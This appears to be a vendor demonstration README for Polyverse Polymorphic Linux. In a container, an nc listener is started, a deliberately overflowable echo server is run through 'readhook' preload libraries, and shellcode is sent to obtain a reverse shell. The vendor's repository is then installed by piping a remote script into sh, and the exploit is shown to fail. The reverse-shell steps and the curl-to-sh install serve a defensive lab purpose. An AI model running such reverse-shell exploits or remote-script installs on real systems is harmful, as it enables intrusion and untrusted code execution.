 # Demonstration: Polyverse Polymorphic Linux
## Set up for a Reverse Shell
### (1) Start nc listening on port 5555 (Session-1)
    nc -kl 5555
## Run Server with Readhook
### (2) Start the container with an interactive shell (Session-2)
    docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh
### (2) We'll need curl and wget
    apk update && apk add curl wget ca-certificates && update-ca-certificates
### (2) Get readhook components
    wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/v1.1.0/basehook.so
    wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/v1.1.0/fullhook.so
### (2) Run the echo-server with readhook in front of libc
    LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" node /src/echo-server.js
## Generate Shell-Code and Perform Exploit
### (3) Generate shell-code for the exploit (Session-3)
    export shellCode=$(curl localhost:8080/xyzzxMAKELOADdocker.for.mac.localhost:5555)
### (3) Send shell-code to the OVERFLOW for a reverse shell
    curl localhost:8080/$shellCode
### (1) Check that the overflow resulted in a remote shell
    ls && whoami && exit
## Install Polyverse Polymorphic Linux
### (2) Add Polyverse as the preferred repository
    curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
### (2) Replace standard packages with Polymorphic Linux
    sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
## Test Polyverse Polymorphic Linux
### (2) Re-run the echo-server with (only) basehook.so
    LD_PRELOAD=/tmp/basehook.so node /src/echo-server.js
### (3) Try the shellCode with Polymorphic Linux
    curl localhost:8080/$shellCode
### (1) Confirm that nobody phoned-home to the listener
### (2) Confirm that the server terminated abnormally
